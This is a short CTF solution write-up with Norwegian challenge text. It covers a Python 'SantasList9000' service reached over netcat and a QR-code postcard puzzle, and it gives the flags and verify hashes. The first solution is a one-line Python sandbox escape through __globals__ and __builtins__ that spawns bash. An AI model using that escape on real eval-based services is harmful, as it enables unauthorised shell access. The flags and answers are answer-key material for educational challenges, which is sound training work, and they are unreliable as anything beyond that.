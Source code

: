 # Week 3 - normal challenge

### Description

Julenissen var ikke veldig blid da han fant ut at noen i forrige uke hadde tuklet med snille/slemme barn systemet sitt. Julenissen har derfor innleid Elf Consulting til å utvikle et nytt program, nemlig SantasList9000!
Men Julenissen stoler ikke helt på disse konsulentalvene, og ønsker at noen eksterne verifiserer at det nye programmet både er trygt og sikkert. Kan dere sjekke og verifisere at det nye programmet fungerer som det skal? Vi er blitt informert at kildekoden er gjort tilgjengelig også 🙂

`nc 129.241.150.119 34403`

### Category

misc

### Solution

`show.__globals__['__builtins__'].__import__("os").system("bash")`

Flag: `Itemize{n1ss3ns_l1st3_9000}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `3d5dac89d1393d3513fde2d1b62eeb59`

# Week 3 - easy challenge

### Description

Styret i Itemize holder for tiden på å pusse opp på kontoret vårt. 🪚 Men i dag når vi skulle innom kontoret, fant vi et postkort på pulten. Julekortet har ingen bakside, og heller ingen tekst tilknyttet seg. Klarer du å finne ut hva postkortet inneholder?

https://cloud.itemize.no/s/iQnKKdQdaZ8Hx2j

### Category

stego/misc

### Solution

- Aperisolve the postcard for QR code
- Scanning the QR code sends to https://christmas.ctf.itemize.no/
- Change onclick event condition from false to true and click the button, or alternatively reverse the obfuscated code and go to https://christmas.ctf.itemize.no/h0h0h0.html for flag

Flag: `Itemize{3n_kj3d3l1g_g4v3}`

Flag format: `Itemize{l33t_t3xt}`

Verify hash: `ff5b07ad838abc9f43a358220d4829e4`
